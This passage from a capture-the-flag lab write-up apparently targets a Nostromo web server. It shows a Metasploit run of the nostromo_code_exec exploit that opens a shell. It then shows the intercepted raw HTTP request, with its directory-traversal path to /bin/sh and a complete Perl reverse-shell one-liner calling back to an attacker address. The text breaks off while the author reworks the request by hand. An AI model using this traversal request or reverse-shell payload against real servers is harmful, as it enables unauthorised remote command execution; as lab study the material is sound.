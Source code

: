 ```
================

   #  Name                                   Disclosure Date  Rank  Check  Description
   -  ----                                   ---------------  ----  -----  -----------
   0  exploit/multi/http/nostromo_code_exec  2019-10-20       good  Yes    Nostromo Directory Traversal Remote Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nostromo_code_exec

msf6 > use exploit/multi/http/nostromo_code_exec
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(multi/http/nostromo_code_exec) > set RHOSTS 10.10.10.165
RHOSTS => 10.10.10.165
msf6 exploit(multi/http/nostromo_code_exec) > set LHOST tun0
LHOST => 10.10.16.5
msf6 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 10.10.16.5:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable.
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.165:56850 ) at 2022-03-23 10:12:02 +0100

whoami

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
As we can see, after setting the proper parameters we can pop the execution of a shell.  
Now, as always, let's analyze the script by setting proxy to localhost so that burp can intercept requests.  
As we intercept the exploit's requests, we can see the following request coming through:  
```
POST /.%0d./.%0d./.%0d./.%0d./bin/sh HTTP/1.1
Host: 10.10.10.165
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_2_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36
Content-Length: 245
Content-Type: application/x-www-form-urlencoded
Content-Length: 245
Connection: close

echo
echo
perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"10.10.14.24:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};' 2>&1
```
as we can see, we are calling this url: ```/.%0d./.%0d./.%0d./.%0d./bin/sh``` wich is triggering command execution on the remote host, and we are also using a perl reverse shell.  
Now let's change the payload a bit and see if we can trigger a shell without using metasploit.  
Let's change the request as follow:  
```
POST /.%0d./.%0d./.%0d./.%0d./bin/bash HTTP/1.1
Host: 10.10.10.165
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 12_2_1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/98.0.4758.81 Safari/537.36
Content-Length: 51
Content-Type: application/x-www-form-urlencoded
Content-Length: 51
Connection: close
```